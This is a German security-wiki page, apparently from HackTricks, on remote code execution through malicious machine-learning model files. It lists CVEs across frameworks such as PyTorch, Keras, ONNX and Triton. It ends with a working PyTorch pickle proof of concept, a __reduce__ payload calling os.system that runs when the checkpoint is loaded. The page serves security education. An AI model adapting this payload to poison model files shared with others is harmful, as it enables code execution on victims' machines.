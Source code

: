 # Modelle RCE

{{#include ../banners/hacktricks-training.md}}

## Modelle zu RCE laden

Machine Learning-Modelle werden normalerweise in verschiedenen Formaten geteilt, wie ONNX, TensorFlow, PyTorch usw. Diese Modelle können auf den Maschinen der Entwickler oder in Produktionssystemen geladen werden, um sie zu verwenden. Normalerweise sollten die Modelle keinen schädlichen Code enthalten, aber es gibt einige Fälle, in denen das Modell verwendet werden kann, um beliebigen Code auf dem System auszuführen, entweder als beabsichtigte Funktion oder aufgrund einer Schwachstelle in der Bibliothek zum Laden des Modells.

Zum Zeitpunkt des Schreibens sind dies einige Beispiele für diese Art von Schwachstellen:

| **Framework / Tool**        | **Schwachstelle (CVE, falls verfügbar)**                                                                                     | **RCE-Vektor**                                                                                                                         | **Referenzen**                               |
|-----------------------------|------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------|
| **PyTorch** (Python)        | *Unsichere Deserialisierung in* `torch.load` **(CVE-2025-32434)**                                                           | Schadhafter Pickle im Modell-Checkpoint führt zur Codeausführung (Umgehung der `weights_only`-Sicherung)                               | |
| PyTorch **TorchServe**      | *ShellTorch* – **CVE-2023-43654**, **CVE-2022-1471**                                                                        | SSRF + schadhafter Modell-Download verursacht Codeausführung; Java-Deserialisierungs-RCE in der Verwaltungs-API                         | |
| **TensorFlow/Keras**        | **CVE-2021-37678** (unsicheres YAML) <br> **CVE-2024-3660** (Keras Lambda)                                                  | Laden des Modells aus YAML verwendet `yaml.unsafe_load` (Codeausführung) <br> Laden des Modells mit **Lambda**-Schicht führt zur Ausführung beliebigen Python-Codes | |
| TensorFlow (TFLite)         | **CVE-2022-23559** (TFLite-Parsing)                                                                                         | Bearbeitetes `.tflite`-Modell löst ganzzahligen Überlauf aus → Heap-Korruption (potenzielles RCE)                                      | |
| **Scikit-learn** (Python)   | **CVE-2020-13092** (joblib/pickle)                                                                                          | Laden eines Modells über `joblib.load` führt zur Ausführung von Pickle mit dem Payload des Angreifers `__reduce__`                      | |
| **NumPy** (Python)          | **CVE-2019-6446** (unsicheres `np.load`) *umstritten*                                                                        | `numpy.load` erlaubte standardmäßig pickled Objektarrays – schadhafter `.npy/.npz`-Trigger führt zur Codeausführung                      | |
| **ONNX / ONNX Runtime**     | **CVE-2022-25882** (Verzeichnisdurchquerung) <br> **CVE-2024-5187** (tar-Durchquerung)                                     | Der externe Gewichts-Pfad des ONNX-Modells kann das Verzeichnis verlassen (beliebige Dateien lesen) <br> Schadhafter ONNX-Modell-Tar kann beliebige Dateien überschreiben (führt zu RCE) | |
| ONNX Runtime (Designrisiko) | *(Keine CVE)* ONNX benutzerdefinierte Ops / Kontrollfluss                                                                     | Modell mit benutzerdefiniertem Operator erfordert das Laden des nativen Codes des Angreifers; komplexe Modellgraphen missbrauchen Logik, um unbeabsichtigte Berechnungen auszuführen | |
| **NVIDIA Triton Server**    | **CVE-2023-31036** (Pfad-Durchquerung)                                                                                      | Verwendung der Modell-Lade-API mit aktiviertem `--model-control` ermöglicht relative Pfad-Durchquerung zum Schreiben von Dateien (z. B. Überschreiben von `.bashrc` für RCE) | |
| **GGML (GGUF-Format)**      | **CVE-2024-25664 … 25668** (mehrere Heap-Überläufe)                                                                         | Fehlformatiertes GGUF-Modell-Datei verursacht Heap-Pufferüberläufe im Parser, was die Ausführung beliebigen Codes auf dem Opfersystem ermöglicht | |
| **Keras (ältere Formate)**  | *(Keine neue CVE)* Legacy Keras H5-Modell                                                                                   | Schadhafter HDF5 (`.h5`)-Modell mit Lambda-Schicht-Code wird beim Laden weiterhin ausgeführt (Keras safe_mode deckt altes Format nicht ab – „Downgrade-Angriff“) | |
| **Andere** (allgemein)      | *Designfehler* – Pickle-Serialisierung                                                                                      | Viele ML-Tools (z. B. pickle-basierte Modellformate, Python `pickle.load`) führen beliebigen Code aus, der in Modell-Dateien eingebettet ist, es sei denn, es gibt Abhilfemaßnahmen | |

Darüber hinaus gibt es einige auf Python-Pickle basierende Modelle wie die von [PyTorch](https://github.com/pytorch/pytorch/security), die verwendet werden können, um beliebigen Code auf dem System auszuführen, wenn sie nicht mit `weights_only=True` geladen werden. Daher könnte jedes auf Pickle basierende Modell besonders anfällig für diese Art von Angriffen sein, auch wenn sie nicht in der obigen Tabelle aufgeführt sind.

Beispiel:

- Erstellen Sie das Modell:
```python
# attacker_payload.py
import torch
import os

class MaliciousPayload:
def __reduce__(self):
# This code will be executed when unpickled (e.g., on model.load_state_dict)
return (os.system, ("echo 'You have been hacked!' > /tmp/pwned.txt",))

# Create a fake model state dict with malicious content
malicious_state = {"fc.weight": MaliciousPayload()}

# Save the malicious state dict
torch.save(malicious_state, "malicious_state.pth")
```
- Lade das Modell:
```python
# victim_load.py
import torch
import torch.nn as nn

class MyModel(nn.Module):
def __init__(self):
super().__init__()
self.fc = nn.Linear(10, 1)

model = MyModel()

# ⚠️ This will trigger code execution from pickle inside the .pth file
model.load_state_dict(torch.load("malicious_state.pth", weights_only=False))

# /tmp/pwned.txt is created even if you get an error
```
{{#include ../banners/hacktricks-training.md}}
